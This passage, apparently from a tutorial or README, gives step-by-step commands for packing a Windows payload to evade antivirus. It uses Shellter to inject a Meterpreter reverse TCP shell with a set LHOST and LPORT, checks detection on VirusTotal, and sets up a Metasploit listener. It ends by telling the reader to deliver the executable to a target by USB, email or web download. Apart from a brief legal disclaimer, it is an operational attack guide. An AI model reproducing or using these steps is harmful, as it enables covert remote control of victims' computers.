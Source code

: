 ```bash
apt-get install shellter
```

Run Shellter in interactive mode:

```bash
shellter
```

- Select `[A]utomatic` mode.
- Provide the path to your `payload_packed.exe`.
- Choose `[N]o` when asked if it's a 32-bit executable.
- Choose `meterpreter_reverse_tcp` for payload and provide `192.168.1.11` and `4444` for LHOST and LPORT.

### Step 7: Test and Validate

7. **Upload the final payload to VirusTotal:**

Test the final payload to ensure it is not detected by multiple antivirus engines. Use the following link: [VirusTotal](https://www.virustotal.com/).

### Step 8: Set Up a Listener

8. **Set up a Metasploit listener:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.11
set LPORT 4444
exploit
```

### Step 9: Deploy the Payload

9. **Deploy the payload:**

Transfer `payload_packed.exe` to the target system using your chosen method (e.g., USB, email, web download) and execute it.

### Important Notes

- **Legal and Ethical Considerations:** Ensure you have explicit permission to test and deploy payloads in any environment. Unauthorized access or testing is illegal and unethical.
- **Regular Updates:** Continuously update your methods as antivirus engines regularly update their detection algorithms.
- **Testing Environment:** Always test your payloads in a controlled environment to avoid unintended damage or detection.

Combining these techniques should create a payload that is more challenging for antivirus engines to detect, but remember that no method is foolproof, and detection capabilities are always improving.



